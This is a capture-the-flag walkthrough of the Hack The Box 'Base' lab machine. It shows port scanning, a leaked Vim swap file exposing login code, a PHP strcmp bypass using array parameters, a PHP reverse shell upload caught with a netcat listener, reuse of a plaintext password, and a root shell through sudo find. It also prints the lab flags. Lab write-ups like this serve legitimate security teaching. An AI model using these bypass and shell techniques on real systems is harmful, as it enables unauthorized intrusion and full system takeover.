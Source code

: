 # Starting Point - Base

## Enumeration

```
$ rustscan 10.10.10.48 -- -sC -sV -o port_scans

PORT   STATE SERVICE REASON  VERSION                                                                                                                                                  
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                                                                             
| ssh-hostkey:                                                                                                                                                                        
|   2048 f6:5c:9b:38:ec:a7:5c:79:1c:1f:18:1c:52:46:f7:0b (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQmgId8Z5lyLG718jzJ9KoLYQPuaKh/Z1++me8L01noJeFuv5RPeqgtoJSeWKcimm7Cw7q3HDUZEHL2LncJIad5v04ma8xgiAG+xUmiO+ntkOff06rtsEx51XRWrbuN4gcTxDCPQQyTJKnTAfleagTbtoWtPNvi82SzaaPyU88nhcn/72USczCeiVfRvawQCcAIHKqUnJzTGlSHAwd6Fj+4sq4CTw0MCrZSTG9JCQmyUVbCFJaF/AtQ0PDOQ/fVhZH8E7E+faAlJKWTYr2sIfQZmC7enT2W82zzWL/JRiQXgAzsI8B6JTJOl3gbmy3+rLY9H+1qztceYKaA8wjFT/5
|   256 65:0c:f7:db:42:03:46:07:f2:12:89:fe:11:20:2c:53 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBA3Z4xQdzt1Zxsy5gdOFTrv3k9HtD0UppMhGWFIFWnHZgWAdONjTRzD/ZeiyGeDUgYWGGpQOzl74HXesdUhr+h0=
|   256 b8:65:cd:3f:34:d8:02:6a:e3:18:23:3e:77:dd:87:40 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINbQMzI8ONrv2TFdy0S8PtObPfizkmQ+217qx1pejwce
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We see that two ports are open. Port 80, on which an Apache server is running and ssh on Port 22.

# Examine Port 80 - Apache Server

![](pics/website.png)

We see a website, with no specific theme or company relation. It's just offering 5 different navigation options, of which only the Login actually works. Clicking on it, we get forwarded to a PHP Login page.

![](pics/login.png)

Instead of trying to bruteforce the login directly, we can start enumerating a bit. What I directly noticed, is, that the URL of the Login is `http://10.10.10.48/login/login.php`. Maybe we can access the parent directory.

Due to an misconfiguration, we can actually access it!

![](pics/login_directory.png)

And due to another developer mistake, there is still the `swp` file of login.php! This usually happens if the developer edits the file within the directory and then uploads the files to a repository/server without closing the editor first. Let's see if there is any valuable information in that login.php.swp file. Therefore we first download it to our local machine with wget.

```
└──╼ $ file login.php.swp     
login.php.swp: Vim swap file, version 8.0
```

Exactly as I thought. The developer used VIM and forgot to close the editor before uploading it. Using `cat`/`more` or `strings` on the file, it reveals the code of the login.php file:

```php
if (!empty($_POST['username']) && !empty($_POST['password'])) {
    require('config.php');
    if (strcmp($username, $_POST['username']) == 0) {
        if (strcmp($password, $_POST['password']) == 0) {
            $_SESSION['user_id'] = 1;
            header("Location: ../upload.php");
        } else {
            print("<script>alert('Wrong Username or Password')</script>");
        }
    } else {
        print("<script>alert('Wrong Username or Password')</script>");
    }
}
```
The above code checks the username/password combination that the user inputs, against the variables that are stored in config.php to see if they match. The following lines are interesting.

```php
if (strcmp($password, $_POST['password']) == 0) {
  if (strcmp($username , $_POST['username']) == 0) {
```

The developer is using `strcmp` to check the username and password, which is insecure and can easily be bypassed. This is due to the fact that if strcmp is given an empty array to compare against the stored password, it will return null. In PHP the == operator only checks the value of a variable for equality, and the value of NULL is equal to 0. The correct way to write this would be with the === operator which checks both value and type ([strcmp doc](https://www.php.net/manual/en/function.strcmp.php), [triple equal operator](http://www.dimuthu.org/blog/2008/10/31/triple-equal-operator-and-null-in-php/)). Let's open burp and catch the login request.

```
POST /login/login.php HTTP/1.1
Host: 10.10.10.48
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 27
Origin: http://10.10.10.48
DNT: 1
Connection: close
Referer: http://10.10.10.48/login/login.php
Cookie: PHPSESSID=nvtt5pdb6j01rmv842sp9u0n3a
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

username=test&password=test
```

Change the POST data as follows to bypass the login:

```
username[]=test&password[]=test
```

This converts the variables to arrays and bypasses strcmp. Once logged in, we see there is additional functionality to upload files.

![](pics/upload_page.png)

Now we simply upload a PHP reverse shell. It succeeds! But where is it uploaded to? Let's start gobuster and search for additional directories. 

```
[+] Threads:        10 
[+] Wordlist:       /usr/share/wordlists/dirb/big.txt                                                         
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s                     
===============================================================                                             
2021/01/06 09:54:39 Starting gobuster                                                                    
===============================================================                                            
/.htaccess (Status: 403)                        
/.htpasswd (Status: 403)                     
/_uploaded (Status: 301)                    
/login (Status: 301)                       
/server-status (Status: 403)           
/static (Status: 301)     
```

There is a directory called `_uploaded`. Let's check this one out.

![](pics/uploaded_dir.png)

Now what's left is to start a nc listener on our local machine and then start our reverse shell by either clicking on the shell.php link or by requesting the file through wget/curl.

## Exploitation

Now that we have a reverse shell, let's see what we can exploit to get access to a user or even root.

```
└──╼ $ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.48] 49812
Linux base 4.15.0-88-generic #88-Ubuntu SMP Tue Feb 11 20:11:34 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 09:26:48 up 24 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Inspecting the `config.php`, which we previously found in the login folder, we see the admin password and username:

```
<?php
$username = "admin";
$password = "thisisagoodpassword";
```

Let's try that for the user `john`, which we also just found in the home directory, by typing `su john`. And it works! We are now user `john`.

Now we can obtain the user flag: `f54846c258f3b4612f78a819573d158e`

Next step is to gain root privileges. Therefore, we first check the sudo privileges of our current user:

```
$ sudo -l
[sudo] password for john: thisisagoodpassword
Matching Defaults entries for john on base:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on base:
    (root : root) /usr/bin/find
```

This is fairly easy. Either you already know it or simply check GTFObins.

```
john@base:~$ sudo find . -exec /bin/sh \; -quit
# id
uid=0(root) gid=0(root) groups=0(root)
```

## Post Exploitation

Obtaining the root flag: `51709519ea18ab37dd6fc58096bea949`

And we are done with the Starting Point series!